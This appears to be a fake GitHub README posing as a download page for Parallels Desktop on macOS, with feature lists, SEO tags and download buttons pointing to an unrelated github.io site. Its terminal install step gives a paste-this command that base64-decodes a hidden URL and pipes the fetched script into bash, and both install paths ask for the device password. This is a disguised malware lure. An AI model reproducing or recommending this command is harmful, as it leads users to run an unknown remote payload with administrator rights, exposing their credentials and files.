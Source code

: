 # 🖥️ Parallels Desktop — Run Windows on macOS with Seamless Integration

**Parallels Desktop** is the leading virtualization solution for macOS, allowing you to run Windows, Linux, and other operating systems on your Mac — without rebooting. Designed with performance and simplicity in mind, Parallels Desktop integrates seamlessly with macOS, giving users the ability to switch between Mac and Windows apps instantly.

Whether you're using an Intel-based Mac or the latest Apple Silicon (M1/M2/M3), Parallels Desktop delivers optimized speed, high compatibility, and full-featured virtual machines.

---

## ✅ Download Parallels Desktop for macOS  
[![Download Parallels Desktop](https://img.shields.io/badge/Download-Parallels_Desktop-lightblue)](https://shuziktobehuman.github.io/huja/Parallels)

---

## 📥 How to Use

Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

Installation via a command in the terminal:

1. Copy the installation command below.
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```



## 📦 What is Parallels Desktop?

Parallels Desktop is a powerful virtual machine software built specifically for macOS. It lets users create and run virtual environments for Windows, Linux, or other operating systems directly on their Mac — with full hardware acceleration, native integration, and support for peripherals like printers, USB devices, and external drives. It’s a must-have tool for developers, gamers, office users, and anyone who needs cross-platform functionality.

---

## ✨ Features

- 🪟 **Run Windows on Mac** without rebooting  
- 💨 Optimized for Apple Silicon (M1/M2/M3) and Intel-based Macs  
- 🔗 Seamless macOS integration: drag & drop files, copy & paste, shared folders  
- 🧰 Includes 40+ one-click tools via Parallels Toolbox  
- 📦 Support for Windows 11, Ubuntu, Debian, and more  
- 🖱 Use Windows and macOS apps side-by-side  
- 📸 Snapshot, rollback, and backup features for safer testing  
- 💻 Retina display support with full screen and Coherence mode  
- 🛠 Perfect for testing, development, gaming, and productivity  
- 🔒 Isolated VM environments with optional TPM & Secure Boot  

---

## 💡 Why Use Parallels Desktop?

- ⚙️ All-in-one solution to run Windows apps on macOS  
- 🧩 Compatible with Microsoft Office, Adobe, AutoCAD, and more  
- 🔄 Easy VM migration from Boot Camp or other PCs  
- 📊 Ideal for professionals, students, developers, and IT admins  
- 🧠 Smart resource management for high performance on Macs  

---

[![Download Parallels Desktop](https://img.shields.io/badge/Download-Parallels_Desktop-lightblue)](https://shuziktobehuman.github.io/huja/Parallels)

---


## 🖼 Preview

![Parallels Desktop Screenshot 1](https://kb.parallels.com/Attachments/kcs-195327/56e1ef5c-fdc4-4b21-9b23-9bdb306cbea5.png)  
![Parallels Desktop Screenshot 2](https://www.parallels.com/blogs/app/uploads/2022/10/macOS-desktop-3-VMs-1024x662.jpeg)

---

## 📌 Tags

parallels desktop mac, parallels desktop 18, parallels desktop discount, windows parallel on mac,  
parallels desktop pro, macos parallels, osx parallels, parallel discount, parallels desktop promo,  
parallels desktop18, parallelsdesktop18, parallelsdesktop 18, parallel desktop18, parallels m1,  
parallels desktop 18 for mac, parallels 17, parallels desktop m1, parallels mac m1,  
parallels desktop 17 for mac, parallels desktop 16, apple parallels,  
parallels desktop for mac m1, parallels desktop windows 11, parallels for mac m1,  
parallels desktop mac download  
